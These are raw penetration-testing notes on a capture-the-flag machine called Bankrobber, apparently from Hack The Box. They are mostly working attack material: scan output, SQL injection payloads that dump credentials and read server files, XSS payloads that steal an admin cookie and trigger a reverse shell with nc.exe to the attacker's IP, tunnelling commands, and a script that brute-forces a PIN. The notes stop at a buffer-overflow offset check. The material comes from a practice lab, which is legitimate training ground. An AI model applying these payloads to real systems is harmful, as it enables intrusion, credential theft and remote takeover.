


PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m27s, deviation: 0s, median: 2m27s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-03T14:37:25
|_  start_date: 2021-02-03T14:36:31


created account, logged in


Your balance: 990


user and password session tokens are just user, password as url_encode(B64)


https://10.10.10.154/notes.txt

    - Move all files from the default Xampp folder: TODO
    - Encode comments for every IP address except localhost: Done
    - Take a break..


X-Forwarder-For: 127.0.0.1
X-Forwarded-Host: localhost
Forwarded: for=127.0.0.1;host=localhost
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Origin: http://localhost
Referer: http://localhost


in comment:


kali@kali:~$ sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.154] 52967
GET /?c=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1
Referer: http://localhost/admin/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.14.17


admin:Hopelessromantic


kali@kali:~/htb/boxes/bankrobber/10.10.10.154$ hydra -L users.txt -P passwords.txt smb://10.10.10.154
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-05 12:26:11
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking smb://10.10.10.154:445/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-05 12:26:12


for i in {1..100}; do echo $i >> ids.txt; done


```
POST /admin/backdoorchecker.php HTTP/1.1
Host: localhost:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 16
Connection: close
X-Forwarder-For: 127.0.0.1
X-Forwarded-Host: localhost
Forwarded: for=127.0.0.1;host=localhost
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Origin: http://localhost
Referer: http://localhost/admin
Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D

cmd=dir';-- test
```


even in port 80 forwarded burp:


kali@kali:~/htb/boxes/bankrobber/10.10.10.154$ crackmapexec smb -u users.txt -p passwords.txt --shares 10.10.10.154
SMB         10.10.10.154    445    BANKROBBER       [*] Windows 10 Pro 14393 (name:BANKROBBER) (domain:Bankrobber) (signing:False) (SMBv1:True)
SMB         10.10.10.154    445    BANKROBBER       [-] Bankrobber\admin:Hopelessromantic STATUS_LOGON_FAILURE 
SMB         10.10.10.154    445    BANKROBBER       [-] Bankrobber\gio:Hopelessromantic STATUS_LOGON_FAILURE 
SMB         10.10.10.154    445    BANKROBBER       [-] Bankrobber\test:Hopelessromantic STATUS_LOGON_FAILURE

SQL injection on the search!


	<tr>
		    <td>balance</td>
		    <td>2</td>
		 </tr>
		
		<tr>
		    <td>hold</td>
		    <td>2</td>
		 </tr>
		
		<tr>
		    <td>users</td>
		    <td>2</td>
		 </tr>
		

tables:

hold
balance
users


term=1' union all select column_name, 2, 3 from information_schema.columns where table_name='users'; -- t

columns user:
id
username
password


all usernames and passwords
term=1' union all select username, password, id from users; -- t

		<tr>
		    <td>admin</td>
		    <td>Hopelessromantic</td>
		 </tr>
		
		<tr>
		    <td>gio</td>
		    <td>gio</td>
		 </tr>
		
		<tr>
		    <td>test</td>
		    <td>test</td>
		 </tr>


table hold
term=1' union all select userIdFrom, comment, id from hold; -- t
    <tr>
        <td>userIdFrom</td>
        <td>2</td>
        </tr>
    
    <tr>
        <td>userIdTo</td>
        <td>2</td>
        </tr>
    
    <tr>
        <td>amount</td>
        <td>2</td>
        </tr>
    
    <tr>
        <td>comment</td>
        <td>2</td>
        </tr>

nothing interesting in comments

balance:
id, userid, amount


term=1' union all select userId, amount, id from balance; -- t
		
		<tr>
		    <td>2</td>
		    <td>35</td>
		 </tr>
		
		<tr>
		    <td>3</td>
		    <td>990</td>
		 </tr>
		
		<tr>
		    <td>4</td>
		    <td>2048</td>
		 </tr>
		
		<tr>
		    <td>5</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>6</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>7</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>8</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>9</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>5</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>6</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>3</td>
		    <td>1000</td>
		 </tr>

bunch of users we have not seen before


term=1' union all SELECT LOAD_FILE('C:/Windows/win.ini'), 2,3; -- t

arbitrary file load


term=1' union all SELECT LOAD_FILE('C:/xampp/htdocs/admin/backdoorchecker.php'), 2,3; -- t

```php
<?php
include ('../link.php');
include ('auth.php');
$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad = array('$(', '&');
$good = "ls";
if (strtolower(substr(PHP_OS, 0, 3)) == "win") {
    $good = "dir";
}
if ($username == "admin" && $password == "Hopelessromantic") {
    if (isset($_POST['cmd'])) {
        // FILTER ESCAPE CHARS
        foreach ($bad as $char) {
            if (strpos($_POST['cmd'], $char) !== false) {
                die("You're not allowed to do that.");
            }
        }
        // CHECK IF THE FIRST 2 CHARS ARE LS
        if (substr($_POST['cmd'], 0, strlen($good)) != $good) {
            die("It's only allowed to use the $good command");
        }
        if ($_SERVER['REMOTE_ADDR'] == "::1") {
            system($_POST['cmd']);
        } else {
            echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
        }
    }
} else {
    echo "You are not allowed to use this function!";
}
?>
```

term=1' union all SELECT LOAD_FILE('C:/xampp/htdocs/link.php'), 2,3; -- t

$user = 'root';
$pass = 'Welkom1!';
$dsn = "mysql:host=127.0.0.1;dbname=bankrobber;";
$pdo = new PDO($dsn,$user,$pass);
function echoBalance($pdo){
    	$pdo = $pdo;
	if(isset($_COOKIE['id'])){
    		$stmt = $pdo->prepare("SELECT amount FROM balance where userId = ?");
		$stmt->execute([$_COOKIE['id']]);
		while($row = $stmt->fetch()){
    			return $row[0];
		}
	}
}

?>

mysql -uroot -pWelkom1! -h 10.10.10.154

ERROR 1130 (HY000): Host '10.10.14.17' is not allowed to connect to this MariaDB server


XSS:

working:
POST /user/transfer.php HTTP/1.1
Host: 10.10.10.154
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 123
Origin: http://10.10.10.154
DNT: 1
Connection: close
Referer: http://10.10.10.154/user/
Cookie: id=3; username=aGFja2Vy; password=aGFja2Vy

fromId=3&toId=1&amount=10&comment=


xss.js
```js
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | ping 10.10.14.17";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials = true;
xhr.send(params);
```

POST /user/transfer.php HTTP/1.1
Host: 10.10.10.154
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://10.10.10.154
DNT: 1
Connection: close
Referer: http://10.10.10.154/user/
Cookie: id=3; username=aGFja2Vy; password=aGFja2Vy

fromId=3&toId=1&amount=1&comment=<script+src%3d"http%3a//10.10.14.17/xss.js">


kali@kali:~/htb/boxes/bankrobber/10.10.10.154$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
10.10.10.154 - - [05/Feb/2021 16:11:38] "GET /xss.js HTTP/1.1" 200 


sudo /usr/bin/impacket-smbserver -smb2support share .

var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | \\\\10.10.14.17\\share\\nc.exe 10.10.14.17 443 -e cmd.exe";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials = true;
xhr.send(params);





curl http://10.10.14.17/chisel64.exe -o chisel64.exe 

PS C:\Users\Cortin\Desktop> .\chisel64.exe server
.\chisel64.exe server
2021/02/05 15:13:34 server: Fingerprint pZhJQKIRsu0/S3A8jgTbYnqDu+lR9fKPzHCYbBY94P0=
2021/02/05 15:13:34 server: Listening on http://0.0.0.0:8080

sudo /opt/chisel/chisel_1.7.3_linux_amd64 client 10.10.10.154:8080 910

sudo /opt/chisel/chisel_1.7.3_linux_amd64 server --port 9002 --reverse

chisel64.exe client 10.10.14.17:9002 R:910:127.0.0.1:910


kali@kali:/opt/chisel$ nc localhost 910
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 1234
 [!] Access denied, disconnecting client....


from pwn import *


for i in range(0,9999):
    r = remote("localhost", 910)
    pin = str(i).zfill(4)
    print(pin)
    r.sendline(pin)
    r.recvuntil("[$] ")
    response_line = r.recvline()
    r.close()
    if b"Access denied" not in response_line:
        print(f"pwned {pin} !!!")
        print(response_line)
        break

pwned 0021 !!!
b' [$] PIN is correct, access granted!\n'




 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] 1; ping 10.10.14.17.........
 [!] You waited too long, disconnecting client....


from pwn import *

r = remote("localhost", 910)
r.recvuntil("[$] ")
r.sendline("0021")
sleep(1)
r.sendline("1&& ping 10.10.14.17")
while True:
    try:
        print(r.recvline())
    except EOFError:
        break
r.close()


b' Please enter the amount of e-coins you would like to transfer:\n'
b' [$]  [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA using our e-coin transfer application. \n'
b' [$] Executing e-coin transfer tool: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'

68/100 A's are sent


kali@kali:~/htb/boxes/bankrobber/10.10.10.154$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A


b' [$]  [$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A using our e-coin transfer application. \n'
b' [$] Executing e-coin transfer tool: 0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A\n'


msf-pattern_offset -l 100 -q 0Ab1                                                                
[*] Exact match at offset 32


